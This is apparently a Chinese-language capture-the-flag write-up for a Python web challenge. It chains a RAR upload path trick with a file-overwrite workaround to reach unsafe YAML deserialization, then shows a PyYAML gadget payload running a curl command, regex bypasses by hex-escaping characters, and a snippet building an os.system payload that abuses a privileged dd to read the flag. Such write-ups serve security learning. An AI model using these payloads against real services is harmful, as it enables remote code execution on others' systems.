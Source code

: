 在`display`路由中

```python
if os.path.exists(f'fileinfo/{md5(filename.encode()).hexdigest()}.yaml'):
```

我们只要存在这样一个yaml文件，才能进行反序列化，但是上面upload路由下，rarDatas会写入需要的yaml。

相当于就是，我们现在只能反序列化一个`rarDatas`的python对象生成的一个yaml对象。

目标就是需要控制`yaml`文件的目录，同时这个`yaml`文件不被覆盖。下面是解决方法：

解决目录问题：我们将文件名前缀写成`fileinfo`的形式，就可以解压到`fileinfo`目录下

```python
extractdir = f"{session.get('updir')}/{filename.split('.')[0]}"
```

解决了目录问题，yaml文件会被覆盖，现在解决文件不被覆盖的问题：

我们先可以上传一个`fileinfo.rar`文件，这样在`fileinfo`目录下生成一个压缩包里的yaml文件，我们需要进入display路由的关键函数，所以在压缩包里放入一个yaml文件，文件名是`fileinfo.rar`的md5字符`b07407f978cba7abbd036e545015c132.yaml`

但是这样会在`yaml.dump`时被覆盖掉

所以进行第二次上传，我们将文件名改为`fileinfo.rara`，这样又可以覆盖掉`fileinfo`的`b07407f978cba7abbd036e545015c132.yaml`文件，然后因为`md5(filename.encode()).hexdigest()`,`dump`时也不会被覆盖。

最后就是我们直接访问`/display?file=fileinfo.rar`路由，就可以直接进入`关键函数`，当然也是load我们的恶意`yaml`文件

现在就是构造一个`yaml`反序列化

这篇文章的poc都被过滤了：https://xz.aliyun.com/t/7923#toc-5

找到了这个：https://gist.github.com/adamczi/23a3b6d4bb7b2be35e79b0667d6682e1

```
# The `extend` function is overriden to run `yaml.unsafe_load` with 
# custom `listitems` argument, in this case a simple curl request

- !!python/object/new:yaml.MappingNode
  listitems: !!str '!!python/object/apply:subprocess.Popen [["curl", "http://127.0.0.1/rce"]]'
  state:
    tag: !!str dummy
    value: !!str dummy
    extend: !!python/name:yaml.unsafe_load
```

这篇也有另一种payload：https://hackmd.io/@harrier/uiuctf20#uiuctf-2020

`subprocess.Popen`被过滤了，`apply`换成`new`,我们可以用`eval`或者`exec`，

然后绕过正则表达式,我们更改`_`为`\x5f`并`.`绕过`\x2e`正则这种

所以构造payload：

因为RCE发现需要提权，find一下有高权限dd命令，利用dd命令读flag

```python
byte_var = b"__import__('os').system('dd if=/flag of=/tmp/flag.txt > /tmp/c.txt')"
for i in byte_var:
    i = hex(i)
    i = i.replace("0", "\\",1)
    print(i,end="")
```
